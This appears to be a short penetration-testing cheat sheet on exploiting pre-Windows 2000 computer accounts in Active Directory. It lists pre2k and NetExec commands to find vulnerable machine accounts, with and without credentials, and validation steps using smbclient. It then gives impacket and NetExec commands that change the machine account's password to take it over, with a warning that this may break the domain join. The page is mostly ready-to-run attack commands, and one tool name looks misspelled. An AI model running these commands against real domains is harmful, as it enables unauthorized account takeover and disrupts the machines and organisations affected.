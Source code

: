 ___
##  TL;DR
___

### Identify
---

**Tools:** [pre2k](https://github.com/garrettfoster13/pre2k), [nxc](https://github.com/Pennyw0rth/NetExec)

**With creds**
```bash
pre2k auth -u <user> -d <DOMAIN> -p <pass> -dc-ip <dcip> -ldaps
```
or
```bash
nxc ldap <dc-ip> -u 'user' -p 'pass' -M pre2k
```

**Without creds**
```bash
pre2k unauth -d <DOMAIN> -dc-ip <dcip> -inputfile <listofcomputers>
```

!!! alert "You can pass `-n` to check blank passwords as well"

!!! alert "Manual mode"
	Without using the tool, you can check by identifying `pwdlastset: 12/31/1600 7:00:00PM`

!!! alert "The only error that indicates an auth failure is `KDC_ERR_PREAUTH_FAILED` other errors do not mean you can't authenticate"  

**Validate**
```bash
smbclient.py domain/machinename\$:machinename@dc-ip
```
Expected output: `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT`

### Exploit

!!! alert "this is semi-destructive, it may require the object be rejoined to the domain"

Change the account password

**Imacket**
```bash
impacket-changpasswd.py domain/machinename\$:machinename@dc-ip -newpass <pass>
```

**NetExec**
```bash
nxc smb <dcip> -u machinename$ -p 'machinename' -M change-password -o NEWPASS=NewPassword
```